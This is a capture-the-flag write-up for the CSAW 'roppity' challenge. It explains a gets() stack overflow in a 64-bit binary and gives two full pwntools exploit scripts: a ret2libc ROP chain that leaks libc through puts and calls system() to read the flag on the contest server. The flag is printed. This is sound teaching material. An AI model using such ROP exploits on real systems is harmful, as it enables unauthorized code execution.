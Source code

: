 ## roppity [50]
*Welcome to pwn!*

`nc pwn.chal.csaw.io 5016`

Files: `rop`, `libc-2.27.so`

##### This challenge was quickly finished with [`pwnscripts`](https://github.com/152334H/pwnscripts). Try it!

Some parts of this write-up may seem overtly verbose; it's written with beginners in mind.
### Short investigation
```python
$ checksec ./rop
[*] '/path/to/rop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
`rop` is a rather simple binary, starting and ending at `main()`:
```c
int init() { return setvbuf(_bss_start, 0, 2, 0); }
int main() {
  char s[20]; // [rsp+0h] [rbp-20h]
  init();
  puts("Hello");
  gets(s);
}
```
`gets()` allows for an infinitely long input (hypothetically) from the user, so there is a very simple linear [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow) off of `s[]` to overwrite `main()`'s return pointer. Since the binary has `No canary found`, but has `NX Enabled` as a security measure (and also because the challenge is named `roppity`), the solution to this challenge must be [Return Oriented Programming](https://ropemporium.com/index.html). The challenge helpfully provides a `libc-2.27.so`, so the objective of the challenge should be to open a remote shell via a [return-to-libc](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/basic-rop/#ret2libc) attack.

Hopefully you understood all of that. If you've personally done all of those things before, then the implementation should be easy to follow too:
1. Use a jump to `puts()`, a `pop rdi` gadget, and the Global Offset Table to leak libc address (i.e. execute `puts(GOT['puts'])` with a ROP chain). `pwntools`' `ROP()` is extremely useful for building this quickly.
2. In the *same ROP chain*, have a final jump back to the start of `main()`. This is so that we can send a *second* ROP chain in step 4.
3. Using the output of `puts()`, calculate the ASLR base of libc in memory, and then find the libc addresses of `system` and a `/bin/sh` string from there. `pwnscripts` helps to automate this part.
3. Write a second ROP chain to call `system("/bin/sh")`. This is similar to step 1; you're just replacing `puts` with `system` and `GOT['puts']` with `"/bin/sh"`.

After all of that, an ideal script may look like this in implementation:
```python
from pwnscripts import *
context.binary = './rop'
puts_got = context.binary.got['puts']
def overflow(b:bytes): return r.sendlineafter('Hello\n', 0x28*b'a' + b)

r = context.binary.process()
rop = ROP(context.binary)
rop.puts(puts_got)
rop.main()

db = libc_db('./libc-database', binary='/lib/x86_64-linux-gnu/libc.so.6')
system = db.symbols['system']
bin_sh = db.symbols['str_bin_sh']
overflow(rop.chain())
base = db.calc_base('puts', extract_first_bytes(r.recvline().strip(), 6))

rop = ROP(context.binary)
rop.call(system+base, [bin_sh+base])
overflow(rop.chain())
r.interactive()
```
Strangely enough, this led to an EOFError on remote, despite working locally. This is potentially the fault of [alignment issues](https://ropemporium.com/guide.html#Common%20pitfalls), but I did not probe too deeply.

After some testing, the exploit is modified to become:
1. leak libc address with ROP to `puts()`. Calculate the libc address of `system` and a `/bin/sh` string here.
2. In the *same ROP chain*, have a call to `gets(bss+...)`. `bss+...` serves as a known memory location to store data we want.
3. Still in the same ROP chain, have a final jump back to the start of `main()`.
4. The `gets()` call will run first. Write a command like `/bin/sh` here.
5. Back in `main()`, write a second ROP chain to call `system(bss+...)`.

With that, it works on remote. The final script used is at the end of this writeup.

### Flag
`flag{r0p_4ft3r_r0p_4ft3R_r0p}`

### Code
```python
from pwnscripts import *
context.binary = './rop'
scratch = context.binary.bss(0x40)  # _bss_start will not work (setvbuf?)
puts_got = context.binary.got['puts']
pad = 0x28*b'a'
def overflow(b:bytes): return r.sendlineafter('Hello\n', pad + b)

# Step 1: rop chain to leak libc && write down a command (see: Weirdly)
r = remote('pwn.chal.csaw.io', 5016)
rop = ROP(context.binary)
rop.puts(puts_got)
rop.gets(scratch)   # Weirdly, removing this terminates the remote connection
rop.main()          # go back to main afterwards

overflow(rop.chain())
db = libc_db('./libc-database', binary='./libc-2.27.so')
system = db.symbols['system']
base = db.calc_base('puts', extract_first_bytes(r.recvline().strip(), 6))

# Step 2: call a shell command with libc.system()
r.sendline('cat flag.txt\0')
rop = ROP(context.binary)
rop.call(system+base, [scratch])

overflow(rop.chain())
print(r.recvline())
```